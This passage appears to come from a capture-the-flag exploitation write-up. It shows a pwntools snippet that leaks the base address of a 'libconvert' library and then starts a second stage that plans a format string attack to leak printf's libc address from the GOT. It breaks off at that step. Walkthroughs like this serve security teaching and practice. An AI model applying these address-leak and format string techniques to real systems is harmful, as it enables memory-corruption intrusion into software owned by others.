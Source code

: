 ```python
p.sendlineafter(b'6. Exit\n', b'2')
libconvert_leak = int(p.recvuntil(b'Welcome', drop=True), 16)
libconvert_base = libconvert_leak - 0x19fd
log.info("Libconvert base: " + hex(libconvert_base))
```

![libconvert-leak.png](images/libconvert-leak.png)

Nice! Let's move on!

### Stage 2: Leak libc address

We will use the same payload format to save our time. Let's change that payload. Now, we know that if size is lower or equal 127, our data will be put on stack and that's a good sign for us to use **Format String**. We will want to leak the libc address of printf from printf@got of libconvert. Let's get the offset for printf@got:

![printf-got-offset-libconvert.png](images/printf-got-offset-libconvert.png)
